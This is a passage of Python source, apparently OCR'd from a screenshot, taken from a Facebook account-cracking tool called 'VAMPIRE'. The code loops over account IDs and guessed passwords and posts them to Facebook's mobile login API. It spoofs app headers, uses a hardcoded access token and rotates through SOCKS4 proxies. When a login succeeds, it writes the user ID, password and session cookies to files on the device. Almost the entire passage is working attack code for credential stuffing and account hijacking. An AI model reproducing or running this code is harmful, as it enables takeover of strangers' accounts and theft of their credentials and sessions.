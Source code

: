             headers = {'User-Agent': f'{R3}', 'Accept-Encoding': 'gzip, deflate', 'Connection': 'Keep-Alive', 'Content-Type': 'application/x-www-form-urlencoded', 'Host': 'graph.facebook.com', 'X-FB-Net-HNI': str(random.randint(20000, 40000)), 'X-FB-SIM-HNI': str(random.randint(20000, 40000)), 'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32', 'X-FB-Connection-Type': 'MOBILE.LTE', 'X-Tigon-Is-Retry': 'False', 'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32', 'x-fb-device-group': '5120', 'X-FB-Friendly-Name': 'ViewerReactionsMutation', 'X-FB-Request-Analytics-Tags': 'graphservice', 'X-FB-HTTP-Engine': 'Liger', 'X-FB-Client-IP': 'True', 'X-FB-Server-Cluster': 'True', 'x-fb-connection-token': '62f8ce9f74b12f84c123cc23437a4a32'}
            url = 'https://graph.facebook.com/auth/login'
            po = requests.post(url,data=data,headers=headers,proxies=bro).text
            q = json.loads(po)
            if 'session_key' in q:
                ckkk = ";".join(i["name"]+"="+i["value"] for i in result["session_cookies"])
                uid=str(q['uid'])
                abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
                ckk = f'https://graph.facebook.com/{uid}/picture?type=normal'
                res = requests.get(ckk).text
                if 'Photoshop' in res:
                    print(f"\r\r {red}[{green}VAMPIRE-OK{red}] {green}{uid} {red}| {green}{pas} ")
                    oks.append(ids)
                    open('/sdcard/VAMPIRE/VAMPIRE-M3-RNOM-OK.txt','a').write(uid+'|'+pas+'|'+ckkk+'\n')
                    print(f"\r\r {red}[{green}COOKIE{red}]{green} ={abir} {coki}")
                    break
            elif 'www.facebook.com' in q:
                cps.append(ids)
                print(f"\r\r {green}[{red}VAMPIRE-CP{green}] {uid} {red}|{green} {pas} ")
                open('/sdcard/VAMPIRE/VAMPIRE-RNOM-CP.txt','a').write(ids+'|'+pas+'\n')
                break
            else:continue
        loop+=1
    except requests.exceptions.ConnectionError:
        time.sleep(10)
    except Exception as e:
        pass
#---------RANDOM M4
def randm3(ids,psd,tl):
    global loop,oks,cps,xvx
    abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
    sys.stdout.write(f"\r {red}[{abir}VAMPIRE{red}]-{red}[{cyan}{loop}{red}]-{red}[{green}OK{white}-{green}{len(oks)}{red}]-{red}[{green}{'{:.1%}'.format(loop/int(tl))}{red}]"),
    sys.stdout.flush()
    try:
        for pas in psd:
            accees_token = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
            pas = rmpassconf(ids,pas)
            prox=random.choice(xvx)
            bro={"http":"socks4://"+prox}
            data = {'adid':str(uuid.uuid4()),'format':'json','device_id':str(uuid.uuid4()),'email':ids,'password':pas,'generate_analytics_claims':'1','community_id':'','cpl':'true','try_num':'1','family_device_id':str(uuid.uuid4()),'credentials_type':'password','source':'login','error_detail_type':'button_with_disabled','enroll_misauth':'false','generate_session_cookies':'1','generate_machine_id':'1','currently_logged_in_userid':'0','locale': 'en_GB','client_country_code': 'GB','fb_api_req_friendly_name':'authenticate','api_key':'62f8ce9f74b12f84c123cc23437a4a32','access_token':accees_token}